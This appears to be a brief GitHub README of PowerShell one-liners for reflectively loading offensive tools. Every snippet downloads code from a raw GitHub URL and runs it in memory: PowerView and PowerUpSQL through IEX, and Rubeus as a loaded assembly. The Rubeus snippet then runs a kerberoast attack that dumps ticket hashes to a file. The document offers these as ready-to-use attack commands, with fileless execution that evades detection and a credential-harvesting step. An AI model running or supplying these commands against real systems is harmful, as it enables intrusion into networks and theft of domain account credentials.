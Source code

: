 # Reflective loading tools

PowerView
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerView.ps1') | IEX
```

Rubeus
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('https://raw.githubusercontent.com/wez3/reflective-loading/main/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```
PowerUpSQL
```powershell
(new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/wez3/reflective-loading/main/PowerUpSQL.ps1') | IEX
```
